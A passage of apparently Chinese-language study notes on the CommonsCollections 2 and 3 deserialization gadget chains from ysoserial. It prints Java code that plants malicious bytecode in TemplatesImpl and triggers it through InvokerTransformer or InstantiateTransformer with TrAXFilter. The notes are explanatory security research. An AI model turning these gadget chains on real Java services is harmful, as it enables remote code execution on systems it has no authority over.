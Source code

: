 ```java
    Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
        //这里的Foo.class什么用暂且不清楚，里面就存了个serialVersionUID
        classBytes, ClassFiles.classAsBytes(Foo.class)
    });

    // required to make TemplatesImpl happy
    //_name 可以是任意字符串，只要不为null即可；
    Reflections.setFieldValue(templates, "_name", "Pwnr");
    //_tfactory 需要是一个 TransformerFactoryImpl 对象
    Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
    return templates;
}
```

接下来要在利用链中调用`templates.newTransformer()`

回到前面的`TransformingComparator.compare`

```java
public int compare(I obj1, I obj2) {
    O value1 = this.transformer.transform(obj1);
    O value2 = this.transformer.transform(obj2);
    return this.decorated.compare(value1, value2);
}
```

这里的`this.transformer`可控，可以在构造时赋值，

`obj1`可控，即Queue中的元素

于是乎，这里用`InvokerTransformer`作为`this.transformer`，

`InvokerTransformer`的`iMethodName`属性设置为`newTransformer`

`templates`作为`obj1`

即可调用`templates.newTransformer()`加载恶意类

# CC-3

## 利用链

```
/*
 * Variation on CommonsCollections1 that uses InstantiateTransformer instead of
 * InvokerTransformer.
 */
```

前面和cc1一样就不说了，看看这边是怎么加载恶意类的

### InstantiateTransformer

```java
    final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(TrAXFilter.class),
            new InstantiateTransformer(
                    new Class[] { Templates.class },
                    new Object[] { templatesImpl } )};
```
